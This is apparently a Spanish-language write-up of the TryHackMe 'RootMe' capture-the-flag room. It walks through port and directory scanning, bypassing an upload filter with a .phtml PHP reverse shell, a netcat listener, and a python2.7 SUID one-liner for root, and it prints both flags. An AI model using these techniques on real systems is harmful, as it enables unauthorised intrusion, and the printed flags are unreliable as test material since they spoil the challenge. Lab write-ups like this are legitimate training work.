# RootMe - TryHackMe Writeup

## 1. Reconocimiento (Reconnaissance)

### Escaneo de Puertos Inicial

```bash
nmap -sS -Pn --min-rate 5000 --top-ports 10000 --open -vvv 10.112.150.20 -oG allPorts
```

    Puertos abiertos: 22/tcp (SSH) y 80/tcp (HTTP).



### Análisis de Servicios y Versiones

#### Escaneo detallado para determinar versiones y scripts por defecto:

```bash
nmap -sCV -p22,80 10.112.150.20 -oN targeted
```

    SSH (22/tcp): OpenSSH 8.2p1 Ubuntu.

    HTTP (80/tcp): Apache httpd 2.4.41 (Ubuntu).

    Info Adicional: El título de la web es "HackIT Home" y utiliza PHP (PHPSESSID detectado).



### Análisis en Web

Buscamos cualquier cosa que nos pueda llamar la atención en el inspector y no encontramos nada interesante.



## 2. Enumeración Web
### Gobuster para la búsqueda de directorios:

```bash
gobuster dir -u http://10.112.150.20 -w /usr/share/wordlists/dirb/common.txt
```

    Resultados clave:

        /panel/ (Status: 301) - Formulario de subida.

        /uploads/ (Status: 301) - Directorio de archivos.




## 3. Explotación
### Obtención de Reverse Shell

#### Filtro de archivos: El servidor bloquea archivos .php con el mensaje "PHP não é permitido!".




#### Bypass: Se renombra la shell de PentestMonkey a una extensión permitida:

```bash
mv shell.php shell.phtml
```


#### Ejecución: Se sube con éxito.



#### Abrimos una terminal y se pone un listener (nc -lvnp 4444).



#### Accedemos a la ruta /uploads y encontramos nuestro archivo subido.



#### Pinchamos el archivo y nos abre una shell con el usuario www-data.



### User Flag:

    Localización: /var/www/user.txt.

    Flag: THM{you_got_a_sh3ll}.



## 4. Escalada de Privilegios
### Enumeración de SUID

#### Búsqueda de binarios con permisos de root:

```bash
find / -perm -4000 2>/dev/null
```

Se identifica *Python 2.7 en /usr/bin/python2.7* como vector de ataque.
Explotación Root



#### Ejecución de comando para elevar privilegios:

```bash
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```


### Root Flag:

    Localización: /root/root.txt.

    Flag: THM{pr1v113g3_3sc4l4t10n}.

